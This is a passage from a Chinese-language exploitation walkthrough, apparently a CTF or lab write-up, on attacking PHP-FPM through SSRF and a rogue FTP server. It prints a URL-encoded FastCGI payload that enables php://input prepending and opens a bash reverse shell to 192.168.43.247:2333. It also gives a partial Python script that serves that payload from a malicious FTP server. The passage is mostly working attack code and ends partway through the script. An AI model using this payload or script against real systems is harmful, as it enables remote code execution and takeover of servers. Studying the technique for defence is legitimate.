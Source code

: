 得到 payload，而我们需要的是上面 payload 中 `_` 后面的数据部分，即：

```plain
%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

在攻击机上设置好 nc 监听：

[![](assets/1698897074-3c5abe5fdb9ca79d64ec41d3d6e70ee1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-9223f966-b2e5-1.png)

然后编写如下脚本（脚本是从网上扒的，谁叫我菜呢，大佬勿喷~~），在攻击机上搭建一个恶意的 ftp 服务，并将上面的 payload 中的数据替换掉下面 ftp 脚本中的 payload 的内容：

```plain
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对 gopherus 生成的 payload 进行一次 urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp 被动模式的 passvie port，监听到 1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次 ftp 连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
```